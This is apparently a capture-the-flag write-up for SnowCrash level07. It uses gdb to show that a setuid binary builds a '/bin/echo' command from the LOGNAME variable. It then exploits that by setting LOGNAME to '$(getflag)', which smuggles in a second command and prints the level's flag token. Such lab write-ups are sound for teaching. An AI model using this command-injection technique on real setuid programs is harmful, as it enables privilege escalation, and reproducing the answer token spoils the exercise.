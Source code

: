 For this level, the "ls -l" command show us an executable.

	level07@SnowCrash:~$ ls -l
	total 12
	-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07

	level07@SnowCrash:~$ ./level07
	level07

By executing it, it appear to just print "level07". We need to use gdb to find out what it does.

	   0x0804856f <+91>:	movl   $0x8048680,(%esp)
	   0x08048576 <+98>:	call   0x8048400 <getenv@plt>
	   0x0804857b <+103>:	mov    %eax,0x8(%esp)
	   0x0804857f <+107>:	movl   $0x8048688,0x4(%esp)
	   0x08048587 <+115>:	lea    0x14(%esp),%eax
	   0x0804858b <+119>:	mov    %eax,(%esp)
	   0x0804858e <+122>:	call   0x8048440 <asprintf@plt>
	   ...
	   ...
	   ...
	   (gdb) x/s 0x8048680
	   0x8048680:	 "LOGNAME"
	   (gdb) x/s 0x8048688
	   0x8048688:	 "/bin/echo %s "
	   (gdb)

By searching a bit we can find out that the script search for the LOGNAME in the env.
Then it print the string with "/bin/echo %s".

We need to change the LOGNAME in the env to print the flag.

	level07@SnowCrash:~$ export LOGNAME='$(getflag)'
	level07@SnowCrash:~$ ./level07 
	Check flag.Here is your token : fiumuikeil55xe9cu4dood66h

